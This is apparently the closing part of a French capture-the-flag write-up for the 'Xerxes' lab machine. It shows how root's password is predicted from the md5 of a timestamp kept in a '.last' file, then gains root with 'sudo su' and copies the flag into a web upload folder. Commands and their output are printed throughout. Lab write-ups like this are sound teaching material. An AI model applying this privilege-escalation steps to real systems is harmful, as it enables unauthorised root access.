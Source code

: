 Comme on s'y attendait c'est un programme pour générer un mot de passe. Là ou le bas blesse c'est que ce dernier est basé sur la date au moment d'exécution, date gardée par le fichier *.last* qui est mis à jour à chaque appel.  

La séquence *date | awk '{print $4}'* récupère l'heure en cours, par exemple *'18:05:26'*.  

Si on lance un *stat* sur *.last* on obtient :

```plain
  File: `.last'
  Size: 0               Blocks: 0          IO Block: 4096   regular empty file
Device: 801h/2049d      Inode: 45529       Links: 1
Access: (0644/-rw-r--r--)  Uid: ( 1000/delacroix)   Gid: ( 1000/delacroix)
Access: 2013-12-19 00:19:51.024911360 -0800
Modify: 2013-12-19 00:19:51.024911360 -0800
Change: 2013-12-19 00:19:51.024911360 -0800
  Birth: -
```

Par conséquent le mot de passe du root doit être

```plain
delacroix@xerxes:/home/delacroix$ echo 00:19:51 | md5sum | awk '{print $1}'
6cf49e97c915079e27c09d41da9d95e4
```

On se connecte via *sudo su* comme elle le faisait puis on copie le flag dans le dossier d'upload du début pour pouvoir y accéder :

```plain
delacroix@xerxes:/home/delacroix$ sudo su
[sudo] password for delacroix: 
root@xerxes:/home/delacroix# id
uid=0(root) gid=0(root) groups=0(root)
root@xerxes:/home/delacroix# file /root/flag 
/root/flag: PNG image data, 250 x 269, 8-bit/color RGB, non-interlaced
root@xerxes:/home/delacroix# cp /root/flag /var/www/
dev/        index.html  robots.txt  
root@xerxes:/home/delacroix# cp /root/flag /var/www/dev/upload/
root@xerxes:/home/delacroix# chmod o+r /var/www/dev/upload/flag
```

![Flag capturé](https://raw.githubusercontent.com/devl00p/blog/master/images/xerxes6.png)  

Groovy !

*Published March 07 2014 at 06:54*